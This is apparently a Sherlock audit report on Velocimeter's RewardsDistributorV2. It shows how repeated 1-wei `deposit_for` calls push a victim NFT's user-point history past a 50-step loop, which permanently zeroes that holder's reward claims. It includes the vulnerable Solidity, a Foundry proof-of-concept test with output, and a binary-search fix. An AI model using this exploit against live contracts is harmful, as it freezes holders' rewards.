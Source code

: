 Fast Black Eel

High

# DOS attack on RewardDistributor claims  through excess amount of userPoint creation

## Summary
A malicious user can DoS (permanently lock) rewardDistributor owner's claims, by creating certain amount of `userPointHistory` entries by calling `VotingEscrow.depositFor()` on a target nft token multiple times.

## Vulnerability Detail
`RewardDistributor` claims are calculated in the `_claim` and `_claimable()` function. The calculation first involves finding the last `userPoint` which was taken before the last `weekCursor`. This is done through a `for` loop that cycles from the last `userEpoch` until it finds one. The loop can cycle up to 50 times:
In `contracts/RewardsDistributorV2.sol`
```solidity
//...//
@-->for (uint i = 0; i < 50; i++) {
            if (week_cursor >= _last_token_time) break;

            if (week_cursor >= user_point.ts && user_epoch <= max_user_epoch) {
                user_epoch += 1;
                old_user_point = user_point;
                if (user_epoch > max_user_epoch) {
                    user_point = IVotingEscrow.Point(0,0,0,0);
                } else {
                    user_point = IVotingEscrow(ve).user_point_history(_tokenId, user_epoch);
                }
@-->            } else { // this else statement will not run because user_epoch <= max_user_epoch will be always true
                int128 dt = int128(int256(week_cursor - old_user_point.ts));
                uint balance_of = Math.max(uint(int256(old_user_point.bias - dt * old_user_point.slope)), 0);
                if (balance_of == 0 && user_epoch > max_user_epoch) break;
                if (balance_of != 0) {
                    to_distribute += balance_of * tokens_per_week[week_cursor] / ve_supply[week_cursor];
                }
                week_cursor += WEEK;
            }
        }
//...//
```
hence if there are more `userPoints` than 50 the `_claimable()` and `_claim()` function will return 0 as `toDistribute`. 

A malicious user can call the `VotingEscrow.depositFor()` on the attacked VotingEscrow NFT token multiple times and can deposit minimum amount tokens (1 wei is enough), this way he can create the `userPoints` that will DoS the function.

## Impact
* Permanent freezing of unclaimed reward, The VotingEscrow NFT token holder loses irreversibly all claims. 
## Code Snippet
https://github.com/sherlock-audit/2024-06-velocimeter/blob/main/v4-contracts/contracts/RewardsDistributorV2.sol#L195-L215
https://github.com/sherlock-audit/2024-06-velocimeter/blob/main/v4-contracts/contracts/RewardsDistributorV2.sol#L252-L272

## POC
```solidity
function testPOC_Dos_CLaims() public {
        initializeVotingEscrow();
        minter.update_period();
        assertEq(minter.weekly_emission(), 2000e18);

        address bob = address(0xb0b);
        flowDaiPair.approve(address(escrow),1e18);
        uint token_id3 = escrow.create_lock_for(1e18,52 weeks,bob);

        // bob attacks tokenId 1 by depositing 1 wei and creating excess userPoint
        flowDaiPair.transfer(bob, 60);
        vm.prank(bob);
        flowDaiPair.approve(address(escrow),60);
        
        for (uint256 i; i < 55; i++) {
            vm.prank(bob);
            escrow.deposit_for(1, 1);
        }

        // move forward few epochs

        DAI.transfer(address(distributor), 10*TOKEN_1);
        _elapseOneWeek();
        minter.update_period();
      

        DAI.transfer(address(distributor), 10*TOKEN_1);
        _elapseOneWeek();
        minter.update_period();

        
        DAI.transfer(address(distributor), 10*TOKEN_1);
        _elapseOneWeek();
        minter.update_period();
        

        uint claimed_t1 = distributor.claim(1);
        uint claimed_t2 = distributor.claim(2);
        vm.prank(bob);
        uint claimed_t3 = distributor.claim(token_id3);
        console.log("claimable on tokenId1: %d", claimed_t1);
        console.log("claimable on tokenId2: %d", claimed_t2);
        console.log("claimable on tokenId3: %d", claimed_t3);
    }
```
OUTPUT
```solidity
[PASS] testPOC_Dos_CLaims() (gas: 68722812)
Logs:
  claimable on tokenId1: 0
  claimable on tokenId2: 6666666666657553811
  claimable on tokenId3: 6666666666657553811
```

## Tool used

Manual Review

## Recommendation
* A possible solution would be to use binary search like in other places in the system.